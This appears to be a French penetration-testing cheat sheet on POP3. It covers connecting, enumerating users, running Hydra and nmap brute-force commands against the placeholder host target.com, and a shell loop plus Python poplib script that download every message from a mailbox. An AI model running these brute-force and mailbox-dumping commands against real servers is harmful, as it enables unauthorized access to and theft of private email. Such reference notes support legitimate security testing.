

## Manipulation et exploitation du protocole POP3

Ce flux illustre la séquence standard d'interaction avec un serveur POP3 pour l'énumération et la récupération de données.



> [!danger] Attention au chiffrement
> L'utilisation du port 110 (POP3) transmet les identifiants en clair. L'usage de **SSL/TLS** via le port 995 est requis pour éviter l'interception des données sur le réseau.

> [!warning] Gestion des suppressions
> Le serveur POP3 ne supprime les messages qu'après l'envoi de la commande **QUIT**. Toute session interrompue brutalement avant cette commande conservera les messages marqués pour suppression.

> [!note] Risque de blocage
> Lors de tests de force brute sur les services d'authentification, le risque de blocage de compte est élevé. Il est recommandé de corréler ces tests avec les techniques décrites dans **Password Attacks**.

## Connexion et Authentification

### Connexion en Telnet (POP3 Non Chiffré)

```bash
telnet target.com 110
```

Sortie attendue lors d'une connexion réussie :

```text
+OK POP3 server ready
```

### Connexion en SSL/TLS

```bash
openssl s_client -connect target.com:995 -crlf
```

### Tester un utilisateur (Énumération)

```bash
USER admin
```

Réponses possibles :

```text
+OK User exists
-ERR Unknown user
```

### Connexion avec mot de passe

```bash
PASS password123
```

Réponses possibles :

```text
+OK Logged in
-ERR Invalid password
```

## Attaques par force brute (hydra/nmap)

> [!warning] Risque de blocage de compte lors de tests de force brute
> Avant toute exécution, vérifiez la politique de verrouillage du compte cible pour éviter un déni de service involontaire.

### Force brute avec Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com pop3
```

### Énumération avec Nmap

```bash
nmap -p 110 --script pop3-brute,pop3-capabilities target.com
```

## Analyse de sécurité (POP3S vs POP3)

L'analyse de la configuration est cruciale pour identifier les vecteurs d'interception (MITM).

| Protocole | Port | Sécurité |
| :--- | :--- | :--- |
| POP3 | 110 | Non chiffré (clair) |
| POP3S | 995 | Chiffré (TLS) |

Vérification de la prise en charge du chiffrement via `CAPA` :
Si la réponse contient `STLS`, le serveur supporte le passage en mode chiffré après une connexion initiale en clair.

## Gestion des Emails

### Lister les Emails

```bash
LIST
```

Sortie type :

```text
+OK 3 messages
1 1024
2 2048
3 512
```

### Lire un Email

```bash
RETR 1
```

Sortie type :

```text
From: admin@target.com
Subject: Password Reset
Message: Votre nouveau mot de passe est P@ssw0rd!
```

### Supprimer un Email

```bash
DELE 1
```

### Réinitialiser (Annuler suppression)

```bash
RSET
```

## Exfiltration de données

L'exfiltration consiste à automatiser la récupération de l'intégralité des messages disponibles pour analyse hors ligne.

```bash
# Exemple de récupération de tous les messages via une boucle simple
for i in {1..3}; do echo "RETR $i"; done | telnet target.com 110
```

## Scripting d'automatisation (python/bash)

Utilisation de `poplib` pour automatiser l'énumération et l'extraction.

```python
import poplib

# Connexion au serveur
mail = poplib.POP3('target.com', 110)
mail.user('admin')
mail.pass_('password123')

# Récupération des messages
num_messages = len(mail.list()[1])
for i in range(num_messages):
    msg = mail.retr(i+1)
    print(f"Message {i+1}: {msg[1]}")

mail.quit()
```

## Informations sur le Serveur

### Vérifier les Capacités du Serveur

```bash
CAPA
```

Sortie type :

```text
+OK Capability list follows
USER
UIDL
TOP
```

### Obtenir un Identifiant Unique des Emails

```bash
UIDL
```

Sortie type :

```text
1 ABC123
2 DEF456
3 GHI789
```

## Déconnexion

### Fermeture de session

```bash
QUIT
```

## Résumé des Commandes POP3

| Action | Commande |
| :--- | :--- |
| Connexion en Telnet | `telnet target.com 110` |
| Connexion en SSL | `openssl s_client -connect target.com:995 -crlf` |
| Tester un utilisateur | `USER admin` |
| Connexion avec mot de passe | `PASS password123` |
| Lister les emails | `LIST` |
| Lire un email | `RETR 1` |
| Supprimer un email | `DELE 1` |
| Annuler suppression | `RSET` |
| Lister les capacités | `CAPA` |
| Obtenir UID des emails | `UIDL` |
| Déconnexion | `QUIT` |

Les techniques présentées ici doivent être complétées par l'analyse des services **IMAP Enumeration**, **SMTP Enumeration** et les méthodologies de **Network Services Enumeration**.